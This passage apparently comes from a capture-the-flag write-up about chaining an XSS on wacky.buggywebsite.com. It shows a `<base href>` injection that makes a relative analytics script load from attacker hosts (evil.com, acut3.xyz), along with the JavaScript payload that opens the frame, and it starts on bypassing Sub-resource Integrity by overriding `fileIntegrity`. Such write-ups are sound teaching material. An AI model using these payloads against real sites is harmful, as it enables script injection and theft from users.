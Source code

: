 Lucky for us, the `https://wacky.buggywebsite.com/frame.html` page also creates
a sandboxed iframe. This iframe loads a script from a relative location:

```js
script = document.createElement('script');
script.setAttribute('src', 'files/analytics/js/frame-analytics.js');
[...]
analyticsFrame.contentDocument.body.appendChild(script);
```

Instead of injecting a `<script>` we can inject a `<base
href="https://evil.com/">`. All URLs that don't specify a host will be relative
to this base URL, and the script will be loaded from
`https://evil.com/files/analytics/js/frame-analytics.js`.

We also need to make sure our `frame-analytics.js` file is returned with an
`Access-Control-Allow-Origin: *` header. This is, I believe, because the
`<script>` tag has `crossorigin` set to `anonymous`.

### SRI Bypass

With our new payload we're now faced with another issue:

```js
function popup() {
    var payload = encodeURIComponent(
        '</title><base href="https://acut3.xyz/">'
    );
    window.open('https://wacky.buggywebsite.com/frame.html?param=' + payload,
                'iframe');
}
```

![CSP]({{page.assets}}wacky.buggywebsite.com_integrity.png)

The `<script>` element is created with an `integrity` attribute. It's a feature
known as "Sub-resource Integrity" that instructs the browser to check that the
signature of the downloaded script matches the signatures declared in the
attribute.

Since we don't have any way to make our script's sha256 match the expected
value of `unzMI6SuiNZmTzoOnV4Y9yqAjtSOgiIgyrKvumYRI6E=`, we need to a way to
change this expected value. Where does this value come from? It is set with the
following piece of code:

```js
window.fileIntegrity = window.fileIntegrity || {
    'rfc' : ' https://w3c.github.io/webappsec-subresource-integrity/',
    'algorithm' : 'sha256',
    'value' : 'unzMI6SuiNZmTzoOnV4Y9yqAjtSOgiIgyrKvumYRI6E=',
    'creationtime' : 1602687229
}
[...]
script.setAttribute('integrity', 'sha256-'+fileIntegrity.value);
```
